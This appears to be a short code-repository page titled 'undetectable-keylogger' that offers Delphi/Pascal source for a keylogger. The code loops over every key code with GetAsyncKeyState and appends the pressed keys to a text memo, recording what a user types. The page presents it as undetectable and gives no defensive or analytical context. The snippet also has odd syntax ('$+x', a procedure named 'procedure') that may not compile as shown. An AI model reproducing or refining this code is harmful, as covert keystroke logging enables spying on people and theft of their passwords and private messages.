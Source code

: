 undetectable-keylogger
======================
Labels
keylogger, delphi, pascal, borland, jamesjara

undetectable keylogger for delphi

Source of a simple keylogger in delphi


```pascal

procedure TForm1.procedure();
var X,y:integer;
f:char  ;
str:string;
begin
//todas las teclas
For X:=0 to 255 do
begin
  if ((GetAsyncKeyState($+x) and 1) = 1) then
  begin
  if (x<>1) then //if we want to find the ascii code instead:
  begin
  //MEMO1.Lines.Add(inttostr(x)+'$·%&');
  end;
    for y:=0 to listview1.items.Count-1 do //log the key strokes
      begin
       if x=strtoint(listview1.items.item[y].caption) then
       memo1.text:=memo1.Text + (listview1.items.item[y].subitems[0])
     end;
   end;
end;
end;

```
